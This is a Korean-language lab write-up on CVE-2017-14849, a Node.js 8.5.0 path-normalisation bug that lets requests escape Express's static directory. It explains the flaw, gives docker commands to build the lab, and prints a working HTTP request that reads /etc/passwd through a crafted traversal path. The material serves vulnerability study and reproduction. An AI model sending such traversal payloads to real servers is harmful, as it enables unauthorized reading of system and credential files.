

# Node.js 디렉터리 탐색 취약점（CVE-2017-14849）

**Contributors**

-   [강찬송(@ssongk)](https://github.com/ssongk)


## 취약점 원칙

참조 문서:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

Node.js 8.5.0에서 디렉터리에 대해 `normalize` 작업을 수행할 때 논리 오류가 발생하여 상위 계층으로 점프하는 취약점이 발견되었습니다.
(예: 경로 `../../../../../../etc/passwd`의 중간에 `foo/../`를 추가 -> `../../../foo/../../../../etc/passwd`)
`normalize`를 사용하면 `/etc/passwd`를 반환합니다.
실제 올바른 결과는 `../../../../../../etc/passwd`여야 합니다.

Express와 같은 웹 프레임워크는 일반적으로 `normalize` 기능에 의존하는 정적 파일 서버 기능을 제공합니다.
예를 들어, Express는 경로가 정적 디렉터리의 범위를 초과하는지 여부를 확인할 때 `normalize` 함수를 사용하는데, 위 버그로 인해 `normalize` 함수가 잘못된 결과를 반환하고 검사를 우회하여 임의 파일 읽기 취약점이 발생합니다.

물론 `normalize`의 BUG는 표현보다 더 많은 영향을 미칠 수 있으므로 더 깊이 조사할 필요가 있습니다.
그러나 이 BUG는 node 8.5.0에 도입되고 node 8.6에서 수정되었기 때문에 영향의 범위가 제한됩니다.

## 취약점 재현

컴파일 및 실행 환경:

```
docker compose build
docker compose up -d
```

`http://your-ip:3000/`을 방문하여 `/static/main.js` 파일을 참조하는 웹 페이지를 확인하세요.
이는 정적 파일 서버가 존재함을 나타냅니다.

다음과 같은 패킷을 보내면 passwd 파일을 읽을 수 있습니다.
(파일의 경로를 안다면 다른 파일도 읽을 수 있음)

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```




## 정리

CVE-2017-14849는 node 8.5.0에서 발견된 취약점입니다.
Express 서버에서 사용자가 경로 중간에 `foo/../` 같은 구문을 넣으면 해당 경로가 정적 디렉터리의 범위를 초과하는지 여부를 확인하기 위해 `normalize` 함수를 사용하는데 여기서 논리적 오류가 발생하여 임의의 파일을 읽을 수 있습니다.
해당 취약점은 node 8.6에서 수정되었습니다.